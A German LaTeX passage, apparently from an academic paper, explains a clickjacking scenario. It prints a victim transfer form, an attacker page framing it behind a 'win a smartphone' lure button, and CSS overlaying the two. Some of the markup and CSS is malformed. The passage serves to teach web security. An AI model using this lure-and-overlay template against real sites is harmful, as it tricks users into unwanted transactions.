 \textbf{Mögliche Angriffsszenarien:}\\
\\
\textbf{\textit{Szenario 1:}}\\

Bei diesem HTML-Code gibt es nur ein Formular mit einem Absenden-Button. Wenn man auf diesen Button drückt, wird die Aktion \texttt{''dotransfer''} ausgeführt, indem der Benutzer zur Anschauung weitergeleitet wird\cite{cjd13}.

\begin{LaTeXCode}[caption={Opferseite},captionpos=b, label=LaTeXCode:cj1][numbers=none]
<html>
	<head>
	<title>Opferseite</title>
	</head>
	<body>
	<form action="/dotransfer" method="post" />
		<input type="hidden" value="1000" name="amount" />
		<input type="hidden" value="[RND-ID]" name="csrftoken" />
		<input type="submit" value="submit" />
	</form>
	</body>
</html>
\end{LaTeXCode}

Durch unten geschriebene HTML-Code wird eine zweite Seite erstellt, welche die erste Seite einbindet\cite{cjd13}:

\begin{LaTeXCode}[caption={Hackseite},captionpos=b, label=LaTeXCode:cj2][numbers=none]
<html>
	<head>
	<title>Hack</title>
	</head>
	<body>
		<button id="clickme"/>Gewinne ein Smartphone</button>
		<iframe src="http://opferseite.de/inittransfer.html" id="frame"/><iframe>
	</body>
</html>
\end{LaTeXCode}

Es wird jetzt noch ein wenig CSS gebraucht, um das Iframe halbdurchsichtig zu machen, und den \texttt{clickme} Button über den Absenden-Button des Iframes zu legen\cite{cjd13}.

\begin{LaTeXCode}[caption={CSS},captionpos=b, label=LaTeXCode:cj3][numbers=none]
#clickme {
	position:absolute;
	top:0px;
	left:0px;
	color: #ff0000;
}

#frame {
	width: 100%
	height: 100%
	opacity: 0.5;
}
\end{LaTeXCode}

Im Endeffekt sieht der Benutzer nur noch den Button mit der Aufschrift "`Gewinn ein Smartphone"'. Darüber liegt jedoch das unsichtbare Iframe. Möchte der Benutzer den Gewinn ergattern betätigt er nicht den Gewinnbutton, sondern den Absenden-Button im Iframe, da dieser über dem Gewinn-Button liegt. Damit wird die Aktion im Hintergrund ausgeführt, und der Hacker hat seiner Ziel erreicht\cite{cjd13}.







